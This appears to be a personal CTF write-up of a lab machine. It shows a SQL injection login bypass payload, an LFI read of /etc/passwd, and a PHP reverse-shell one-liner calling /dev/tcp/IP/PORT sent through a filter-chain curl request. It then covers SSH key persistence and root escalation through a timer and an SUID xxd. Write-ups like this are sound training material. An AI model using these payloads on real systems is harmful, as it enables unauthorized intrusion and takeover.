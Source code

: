 ```yaml
---
sticker: emoji//1f9c0
---
```


![[Pasted image 20240927153835.png]]
This CTF contains a port scanning "block" method, since it show a lot of open ports in which most of services, are unavailable, for our luck, port 80 is open and has a login page:

![[Pasted image 20240927153919.png]]
I tried different things such as `XSS` `LFI` `PATH TRAVERSAL` `BRUTEFORCE` and more, then when i tried `SQLI` I found a path to exploit, after trying multiple payloads, got with this one that worked for me:

`' || '1'='1';-- -`

Had to URL encode it:

`%27%20%7C%7C%20%271%27%3D%271%27%3B--%20-`

And it showed the following output:

![[Pasted image 20240927154104.png]]

That location seems fun, lets visit it:

We got admin panel even without credentials:

![[Pasted image 20240927154210.png]]
After looking for a while, I found that the request for messages, got me this message:

![[Pasted image 20240927154349.png]]

Let's visit it:

![[Pasted image 20240927154523.png]]

Nothing too useful, but then, looking at the URL I thought about a `LFI`, when i sent the request, i got this:

![[Pasted image 20240927154621.png]]
I was able to read `etc/passwd` file, this website is vulnerable to `LFI`, let's get a reverse shell:

For this, i will be using the following tool:

```github
https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py`
```

Also, a simple php reverse shell, i will store it in a file called payload.txt: 

```php
"<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/IP/PORT 0>&1\"'); ?>" | grep "^php" > payload.txt
```

Now, let's send the reverse shell and establish a connection to our machine:

###### Sending the payload
`curl "http://10.10.142.162/secret-script.php?file=$(cat payload.txt)"`

![[Pasted image 20240927160128.png]]


![[Pasted image 20240927160136.png]]
We got our reverse shell, let's make it stable using the [[STABLE SHELL|shell tricks]]::

![[Pasted image 20240927160349.png]]
Now, we have an stable shell, let's look for privesc:

![[Pasted image 20240927160513.png]]
We cannot read user.txt contents neither use sudo -l due to the lack of the password for the user, let's look at SUID files:

![[Pasted image 20240927160551.png]]

Nothing useful too, let's keep enumerating the machine:

![[Pasted image 20240927160737.png]]
in `/home/comte/.ssh` we can read and write authorized keys, let's put ours:

![[Pasted image 20240927161025.png]]
![[Pasted image 20240927161221.png]]
I could enter ssh using my own key, let's read that `user.txt` file:

![[Pasted image 20240927161301.png]]\

For privilege escalation we have this sudo permissions:

![[Pasted image 20240927161701.png]]
When i read the `exploit.timer` file, I see this:

![[Pasted image 20240927161722.png]]
Let's change the `OnBootSec` to 5 seconds and enable the service to see what it does:

![[Pasted image 20240927161803.png]]
![[Pasted image 20240927162007.png]]
Once I did this, I found that a new binary was added to the 4000 UID binaries, let's exploit `xxd` to gain root shell:

![[Pasted image 20240927162104.png]]

![[Pasted image 20240927162740.png]]
Now, i got root authorized key access:

![[Pasted image 20240927162817.png]]
just like that, machine is done:

![[Pasted image 20240927162856.png]]


